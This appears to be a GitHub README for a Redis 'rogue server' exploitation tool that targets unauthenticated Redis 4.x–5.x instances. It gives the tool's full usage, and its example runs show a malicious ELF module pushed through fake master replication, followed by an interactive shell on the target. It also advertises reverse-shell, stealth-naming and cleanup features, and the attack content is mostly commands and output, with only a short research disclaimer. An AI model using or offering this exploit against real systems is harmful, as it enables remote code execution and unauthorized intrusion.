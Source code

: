 ### Awesome Redis Rogue Server Research

This document details research on the **Redis Rogue Server** technique for exploiting Redis instances with unauthorized access. Existing articles often lack a detailed explanation of its principles, so this study dives deeper, improving the existing `Rogue Server` Python exploitation code and `module.c` source code.

The core technologies involved are **Redis master-slave replication** and **external module loading**, with the attack strategy summarized as follows:

![Redis Rogue Server Diagram](https://i.loli.net/2019/12/20/KfcrkUu89joGe34.png)

---

### Features for Red Team Testing

- Rewritten external module memory allocation to avoid crashing the tested Redis server.
- More stable direct shell and reverse shell options.
- Separate `Rogue Server` mode.
- `Redis-Cli` and `Rogue Server` separation mode.
- Writable path testing.
- Standard error redirection.
- Optimized shell decoding issues.
- Randomized `.so` file names and module load names.
- Module unloading and `.so` file cleanup to maintain server functionality.
- Redis password authentication support (details in source code).

---

### Applicability
Compatible with **Redis 4.x to 5.x**.

---

### Usage

```bash
$ python3 redis_rogue_server.py -h

usage: python3 redis_rogue_server.py -rhost [target_ip] -lhost [rogue_ip] [Extend options]

Redis unauthenticated test tool.

optional arguments:
  -h, --help      show this help message and exit
  -rhost RHOST    Target host.
  -rport RPORT    Target port. [default: 6379]
  -lhost LHOST    Rogue Redis server, which the target host can reach. THIS IP MUST BE ACCESSIBLE BY THE TARGET!
  -lport LPORT    Rogue Redis server listening port. [default: 15000]
  -passwd PASSWD  Target Redis password.
  -path SO_PATH   "Evil" .so file path. [default: module.so]
  -t RTIMEOUT     Rogue server response timeout. [default: 3]
  -s              Separate mode: separates Redis-Cli (this IP) and Rogue Server (another IP).
                  Rogue Server port listens locally by default. Use flag `-s` to shut down local port if `lport` conflicts.
  -v              Verbose mode.

Examples:
  redis_rogue_server.py -rhost 192.168.0.1 -lhost 192.168.0.2
  redis_rogue_server.py -rhost 192.168.0.1 -lhost 192.168.0.2 -rport 6379 -lport 15000

Only Rogue Server Mode:
  redis_rogue_server.py -v
```

---

### Example Usage

```bash
$ python3 redis_rogue_server.py -rhost 192.168.229.136 -lhost 192.168.229.150 -v
[*] Init connection...
[+] Target accessible!
[*] Exploit Step-1.
[+] RDB dir: /home/test/Desktop/redis-5.0.7
[*] Done.
[+] Accept connection from 192.168.229.136:44674
[>>]b'*1\r\n$4\r\nPING\r\n'
[<<]b'+PONG\r\n'
[>>]b'*3\r\n$8\r\nREPLCONF\r\n$14\r\nlistening-port\r\n$4\r\n6379\r\n'
[<<]b'+OK\r\n'
[>>]b'*5\r\n$8\r\nREPLCONF\r\n$4\r\ncapa\r\n$3\r\neof\r\n$4\r\ncapa\r\n$6\r\npsync2\r\n'
[<<]b'+OK\r\n'
[>>]b'*3\r\n$5\r\nPSYNC\r\n$40\r\ne46ef23509ec51bb952dec34cb84e6c08388e5eb\r\n$1\r\n1\r\n'
[<<]b'+FULLRESYNC d2b79a2fbd16c050cdf136838f67093efb76509 1\r\n$45608\r\n\x7fELF\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00>\x00\x01\x00\x00\x00 *\x00\x00\x00\x00\x00\x00@\x00\x00\x00\x00...'
[*] The Rogue Server Finished Sending the Fake Master Response.
[*] Wait for Redis IO and transaction flow to close...
[*] Exploit Step-2.
[*] Done.
[+] It may crash the target Redis server due to large data transfer. Be careful.
[?] Shell? [i]interactive,[r]reverse: i
[!] DO NOT USE THIS TOOL FOR MALICIOUS PURPOSES!
[+] =========================== Shell =============================
$ id
uid=1000(test) gid=1000(test) groups=1000(test),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
$ exit
[*] Please wait for auto exit. Cleaning....
[!] DO NOT SHUTDOWN IMMEDIATELY!
[*] Done.
```

---

### Separate Mode

- **Rogue Server:** `192.168.229.150`
- **Attacker:** `192.168.229.136`

In this mode, the `Rogue Server` is run separately from the attacker host's `Redis-Cli`. First, start the `Rogue Server`. Then, the attacker's `Redis-Cli` sends attack commands. The `Rogue Server` is hosted on a remote machine and doesn't run locally.

#### Rogue Server
```bash
python3 ./redis_rogue_server.py -v
[*] Listening on port: 15000
[+] Accept connection from 192.168.229.136:44762
[>>]b'*1\r\n$4\r\nPING\r\n'
[<<]b'+PONG\r\n'
[>>]b'*3\r\n$8\r\nREPLCONF\r\n$14\r\nlistening-port\r\n$4\r\n6379\r\n'
[<<]b'+OK\r\n'
[>>]b'*5\r\n$8\r\nREPLCONF\r\n$4\r\ncapa\r\n$3\r\neof\r\n$4\r\ncapa\r\n$6\r\npsync2\r\n'
[<<]b'+OK\r\n'
[>>]b'*3\r\n$5\r\nPSYNC\r\n$40\r\na62cf45a906d4a68422cac6f835108dbecb25f3b\r\n$1\r\n1\r\n'
[<<]b'+FULLRESYNC b79062efe2211aa8328ab4da3d501fa21b2ac54a 1\r\n$45608\r\n\x7fELF\x02\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00>\x00\x01\x00\x00\x00 *\x00\x00\x00\x00\x00\x00@\x00\x00\x00...'
[*] Wait for Redis IO and transaction flow to close...
```

#### Attacker
```bash
python3 redis_rogue_server.py -rhost 192.168.229.136 -lhost 192.168.229.150 -s -v
[*] Separate Mode. Please ensure your Rogue Server is listening.
[*] Init connection...
[+] Target accessible!
[*] Exploit Step-1.
[+] RDB dir: /home/test/Desktop/redis-5.0.7
[*] Done.
[*] Wait 3 secs for REMOTE Rogue Server response. (Use flag -t [N] to change timeout)
[!] Ensure your remote Rogue Server is working now!
[*] Exploit Step-2.
[*] Done.
[+] It may crash the target Redis server due to large data transfer. Be careful.
[?] Shell? [i]interactive,[r]reverse: i
[!] DO NOT USE THIS TOOL FOR MALICIOUS PURPOSES!
[+] =========================== Shell =============================
$ id
uid=1000(test) gid=1000(test) groups=1000(test),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare)
$ exit
```

---

### Module Source Code Modifications

Modify the `RedisModules/src/module.c` file and recompile:

```bash
$ vim ./RedisModules/src/module.c
$ cd RedisModules
$ make
```
---

### Disclaimer
This project is for security research and learning purposes only. Please comply with local laws and regulations. Any misuse is the sole responsibility of the user. **Use it only for research purposes.**
